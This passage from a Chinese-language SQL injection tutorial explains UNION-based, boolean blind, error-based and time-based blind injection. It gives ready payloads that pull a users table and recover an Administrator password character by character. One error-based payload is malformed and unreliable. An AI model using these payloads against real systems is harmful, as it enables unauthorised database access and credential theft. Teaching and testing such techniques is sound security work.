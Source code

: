 ````sql
--根据列中的名字select,例如
' union select username, password from users--
````
## 0x06 盲注
盲注指存在可利用漏洞，但没有返回错误信息的注入。没有报错信息的话上面的注入方法就很难判断，但盲注的语句同样执行，也可以利用，但需要用别的方式。
### 1.通过触发响应进行盲注
页面虽然不会返回报错，但会返回某些字符或样式提示语句是否被成功执行。形成布尔型盲注，就是真假判断，有返回就说明语句被成功执行，无返回说明执行失败。
假设web应用会对cookie使用sql查询语句，如：  
````sql
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
````
这里存在注入但不会向用户回显结果，可是根据输入不同页面会有所改变，当语句取回数据时会回显一个“Welcome back”在界面上。

这样一次就可以判断1bit数据，可以用上面的判断列名方式，使用二分发判断字母，例如  
````sql
xyx' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
````
返回真，说明第一个字母在m之后，再测
````sql
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--
````
这样测下去，最终测到=s时返回真，说明第一个字母是s
````sql
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'--
````
**可以用猜内容中ascii码的方式来判断，其余盲注同理**
### 2.通过触发sql错误进行盲注
如果应用执行了SQL语句，但返回结果却永远相同，没有了布尔型的判断条件，
这种情况下，可以根据注入语句来触发错误条件，让页面你返回信息  
如果注入语句为真，就触发一个数据库错误，如果没执行就不触发。通常，引发一个未被处理的错误将会导致页面发生变化，这样就可以判断注入语句是否被执行。  
利用case when then语句(每个数据库不一样，详情见不同数据库备忘录) 例：
````
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
#返回空
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
#返回除以0的错误
````
然后同样利用布尔型盲注，例：
````sql
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then to_char(1/0) to_char(else null end from users--
````

### 3.时间盲注
我们前面注入是通过返回的不同来判断的，如果错误全被处理了，就不会有报错，这样页面就不会有任何不同。  
这种时候可以通过添加延时指令来判断注入语句是否执行，(每个数据库延时方法不同)例：
````
'; IF (1=2) WAITFOR DELAY '0:0:10'--
#不会产生延时
'; IF (1=1) WAITFOR DELAY '0:0:10'--
#会产生延时
````
然后同理每个字符判断：
````sql
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
````
**注：时间盲注需要用单线程爆破**
